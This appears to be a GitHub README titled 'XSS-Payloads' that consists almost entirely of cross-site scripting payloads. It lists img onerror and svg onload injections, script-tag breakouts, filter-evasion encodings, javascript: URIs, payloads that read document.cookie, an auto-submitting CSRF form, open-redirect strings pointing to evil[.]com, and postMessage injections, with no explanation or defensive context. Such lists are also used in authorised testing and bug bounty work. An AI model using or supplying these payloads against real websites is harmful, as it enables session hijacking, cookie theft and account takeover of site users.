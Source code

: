 # XSS-Payloads

Inner XSS

document.getElementsByTag('body')[0].innerHTML = `<img\nsrc="x"onerror=alert(1)>`

<img src=x onerror=alert(1)>

<img/src=x onerror=alert(1)>

<img/src="x"/onerror=alert(1)>

<img/src="x"onerror=alert(1)>

<img\nsrc="x"onerror=alert(1)>

<img src="x">

target[.]com/?redirect_to=evil[.]com

JavaScript XSS

");alert('xss');

')alert('xss');

javas%09cript:alert(1)

<a href="javascript:alert(1)">asd123</a>

" onmo<x>useover="alert(document['cookie'])">

" onf<x>ocus="alert(document['cookie'])" autofocus">

<img src="x" onclick="prompt(1)">

<img src=x oncjavascipt:lick=prompt(1)>

<a href="http://"onmouseover="alert(1);">

';alert(1);'

<script>var token='';alert(1);''</script>

</script><script>alert(1);</script>

<script>var token=</script><script>alert(1);</script>';</script>

><script>alert(1);</script>

"><h1>test</h1>

'+alert(1)+'

"onmouseover="alert(1)

http://"onmouseover="alert(1)

%09onmousover=alert(1)

%3f%09onmousover=alert(1)

%3f%09onmousover=alert(document.location.hash.substring(1))#{XSS} ---> Console ---> document.location.hash

asd";}catch(e){}alert(document.cookie);try{XSS="

lookhere’);});</script><img src=x onerror=alert(‘XSS’)>

Target[.]com/?s=”><script>alert(1)</script>&s=”><script>alert(1)</script>

'"> <svg/onload=prompt(1);>{{1*1}}

/?utm_source=%60%2balert/**/(1)%2b%60

/?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e<a href="javascript:alert(1)'>XSS</a>

1"-top["con\x66irm"](document.domain)-"

javascript: //% 250Alert (document.location = document.cookie)

'-prompt.call(window, 'xss')-'

'-alert.call(window, 'xss')-'

<\/script><script>alert('XSS')<\/script>

aaa"bbb'ccc<svg onload=alert('XSS')>eee

<svg onload="alert('XSS on '+ document.domain)">

</title></script/"-alert( 0)-"--><img/onerror='; alert(/XSS/);'src=1>

</title></script/"-alert(0)-"-->"><svg/ onload=prompt(/XSS/)>

<script>alert(1);//

"'> </form><script>alert("XSS");</script>

'> </form><script>alert("XSS");</script>

javascript://%0a%0dalert(document.cookie)

*/alert('XSS\n-XSS'); //

''> </form><script>alert("XSS");</script>

'"><ScRiPt >prompt(/XSS/)</ScRiPt>

'"> <ScRiPt >prompt(/XSS/)</ScRiPt>

data:,\u0077indow.top.alert(1)

"><svg onload="alert(domain)

"-alert(document.domain)-"

</script/x><scr<script>ipt>alert(1)</script/x>

onmouseover=alert'(document.domain)'

/<marquee loop=1 width=0 onfinish=alert(1)>

</TITLE><sCRipT>alert ("XSS");</sCRipT><TITLE>

<svg>/OnLoad="`${prompt"}`">

<--`<img/src=`%20onerror=confirm``>%20--!>

<svg </onload ="1> (_=alert,_(1337)) "">

<img onerror=alert(1) src <u></u>

';redirecturl='javascript:alert("XSS")

';redirecturl='http://google.com/'

redirect_to=////evil%E3%80%82com

"/>alert("Xss:Priyanshu")

"/></script><script>alert(/XSS/)</script>

<body onload=alert(1)>

"<body onload="alert('XSS')">

"><%2Fstyle<%2Fscript><script>confirm("XSS")<%2Fscript>

<body onload=document.getElementById("xsrf").submit()>

<a href="data:text/html;based64_,<svg/onload=\u0061&#x6c;&101%72t(1)>">X</a

<a href="data:text/html;based64_,<svg/onload=\u0061&#x6c;&101%72t(document.cookie)>">X</a

http://test.com<script>alert(document.domain)</script>

http://test.com<script>alert(document.cookie)</script>

<img src=x onerror=alert(document.domain)>

x"></script><img src=x onerror=alert(1)>

q=" onclick="alert(/XSS/)

"><iframe src='javascript:prompt(/XSS/);'>

<iframe src="https://google.com"></iframe>

"><iframe src=a onload=alert('XSS')<

</script><script>alert(document.cookie)</script>

<xss>alert('xss')</xss>

<iframe src="https://google.com"></iframe>

/default.aspx#"><img src=x onerror=prompt('XSS');>

/default.aspx#"><img src=x onerror=prompt('0');>

<img src=x onerror=prompt(1);> by ">

“><img src=x onerror=prompt(0)>.txt.jpg

“><img src=x onerror=alert(document.cookie)>

"><img src=x onerror=prompt(1);>

"><script>alert('XSS')</script>

id=abc"><Script>alert(/xss/)</SCRIPT>

"><img src=" " onMouseover=prompt(/xss/);>

Default.aspx/" onmouseout="confirm(1)'x="

Console 

window.postMessage('alert(document.domain','*')

window.postMessage({"action": "exec", "payload": "alert(document.domain)"}, '*')
